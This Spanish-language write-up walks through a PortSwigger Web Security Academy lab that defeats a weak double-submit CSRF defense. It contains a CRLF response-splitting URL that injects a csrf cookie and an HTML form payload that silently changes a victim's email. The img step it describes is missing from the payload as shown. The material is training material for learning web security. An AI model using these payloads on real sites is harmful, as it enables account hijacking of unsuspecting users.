



# PortSwigger Lab: CSRF where token is duplicated in cookie

**Plataforma:** PortSwigger Web Security Academy  
**Dificultad:** Fácil  
**Tipo:** CSRF (Cross-Site Request Forgery)  
**Objetivo:** Cambiar email usando doble-submit CSRF (token duplicado en cookie)  
**Credenciales:** `wiener:peter`

---

## Flujo del ataque

```
Login (wiener:peter) → Cambiar email → Interceptar petición
→ Descubrir: token en cookie = token en parámetro
→ Probar token arbitrario → Funciona si están sincronizados
→ HTTP Response Splitting → Inyectar cookie con token
→ Payload con img (inyecta cookie) + form (envía POST)
→ Exploit server → Enviar a víctima
```

---

## 1. Análisis de la petición



### Petición de cambio de email

```http
POST /my-account/change-email HTTP/2
Host: 0a6f00570454f66280623a9000470000.web-security-academy.net
Cookie: csrf=BrMxJp6dQY4iXTfmXJ3Jx06MOMyPY7VF; session=...

email=user@user.es&csrf=BrMxJp6dQY4iXTfmXJ3Jx06MOMyPY7VF
```

**Descubrimiento clave:**

El token CSRF aparece en **dos lugares**:
- Cookie: `csrf=BrMxJp6dQY4iXTfmXJ3Jx06MOMyPY7VF`
- Parámetro POST: `csrf=BrMxJp6dQY4iXTfmXJ3Jx06MOMyPY7VF`

Tienen **exactamente el mismo valor**.

---

## 2. Token arbitrario — Doble submit válido



Se prueba con un token arbitrario diferente:

```http
Cookie: csrf=VNhsMtzic0ZRqw8CN12oNvHndtjtoKYM
csrf=VNhsMtzic0ZRqw8CN12oNvHndtjtoKYM
```

**Resultado:** `302 Found` — Email se cambia correctamente.

**Conclusión:** El servidor valida que ambos tokens sean **idénticos**, pero no verifica que sea un token específico conocido o generado por la sesión.

---

## 3. Vulnerabilidad: Doble-submit débil

El "doble-submit" CSRF requiere:

1. Un token en cookie
2. Un token en parámetro POST
3. Ambos deben coincidir

**Problema:** No valida que el token sea único para la sesión.

**Solución del atacante:**
1. Inyectar cualquier token en la cookie
2. Enviar el mismo token en el formulario
3. Petición aceptada

---

## 4. Vector de inyección — HTTP Response Splitting

Campo de búsqueda refleja parámetro. Inyectar CRLF para crear nuevo header:

```
/?search=daw%0d%0aSet-Cookie:%20csrf=VNhsMtzic0ZRqw8CN12oNvHndtjtoKYM%3b%20SameSite=None
```

La cookie `csrf` personalizada se inyecta en el navegador de la víctima.

---

## 5. Payload CSRF

```html
<iframe name="csrf-frame" style="display:none;"></iframe>

<!-- Paso 1: Inyectar cookie con token -->


<!-- Paso 2: Formulario POST con token duplicado -->
<form method="POST" 
      action="https://target.com/my-account/change-email" 
      target="csrf-frame">
  <input type="hidden" name="email" value="attacker@attacker.com">
  <input type="hidden" name="csrf" value="VNhsMtzic0ZRqw8CN12oNvHndtjtoKYM" />
</form>
```

**Flujo:**
1. Imagen GET → inyecta cookie `csrf=VNhsMtzic0ZRqw8CN12oNvHndtjtoKYM`
2. Imagen no existe → `onerror` se dispara
3. Formulario POST con `csrf=VNhsMtzic0ZRqw8CN12oNvHndtjtoKYM` se envía
4. Cookie inyectada coincide con parámetro → Validación pasa
5. Email cambiado

---

## 6. Lab resuelto



---

## Por qué funciona

- Cookie inyectable (campo búsqueda sin sanitizar)
- HTTP Response Splitting permite agregar headers
- SameSite=None cookie se envía cross-site
- Doble-submit no valida origen de tokens
- Ambos tokens pueden ser arbitrarios si coinciden
- Timing perfecto (imagen + onerror)

---

## Diferencia con lab anterior

| Lab 4 | Lab 5 |
|-------|-------|
| Token en parámetro + csrfKey en cookie (diferentes) | Token en parámetro = Token en cookie (iguales) |
| Validar que coincidan entre sí | Validar que coincidan entre sí |
| Inyectar csrfKey | Inyectar csrf |
| Ambas cosas diferentes | Una sola cosa (duplicada) |

Lab 5 es más simple: mismo token en dos lugares, cualquier valor funciona si están sincronizados.

---

## Referencias

- [PortSwigger — CSRF tokens](https://portswigger.net/web-security/csrf#tokens)
- [OWASP — Double Submit CSRF Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#double-submit-cookie)
- [HTTP Response Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)
- [SameSite Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)
